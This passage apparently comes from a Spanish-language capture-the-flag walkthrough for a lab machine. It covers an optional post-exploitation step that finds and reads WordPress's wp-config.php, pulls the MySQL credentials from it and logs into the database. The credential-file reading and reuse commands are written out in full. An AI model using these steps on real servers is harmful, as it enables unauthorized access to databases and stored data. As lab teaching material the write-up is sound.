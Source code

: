 
<h2 id="Opcional">Opcional: Enumeración de Servicio MySQL y Crackeo de Contraseña de WordPress</h2>

Al ganar acceso a la máquina víctima, entramos a la raíz.

Pero si listamos el directorio `/var/www/html/education`, veremos los archivos de **WordPress** y entre ellos el **wp-config.php**. Aunque es más fácil y práctico buscarlo con el comando **find**:
```bash
www-data@TheHackersLabs-facultad:/$ find / -type f -name "wp-config.php" 2>/dev/null
/var/www/html/education/wp-config.php
```

Al leerlo, es posible que encontremos las credenciales de acceso para el **servicio MySQL**:
```bash
www-data@TheHackersLabs-facultad:/$ cat /var/www/html/education/wp-config.php | head -n 40 | sed -n '/\/\*\* The name of the database for WordPress \*\//,$p'
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wordpressuser' );

/** Database password */
define( 'DB_PASSWORD', 'tu_contraseña_segura' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
```

Podemos comprobar con el comando **ss** si está activo el **puerto 3306**, que es el puerto asignado para **MySQL**:
```bash
www-data@TheHackersLabs-facultad:/$ ss -tuln | grep tcp
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*          
tcp   LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
tcp   LISTEN 0      511                *:80              *:*          
tcp   LISTEN 0      128             [::]:22           [::]:*
```
Ahí está.

Usemos las credenciales obtenidas para entrar al **servicio MySQL**:
```bash
www-data@TheHackersLabs-facultad:/$ mysql -h localhost -u 'wordpressuser' -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
...
MariaDB [(none)]>
```
Entramos.
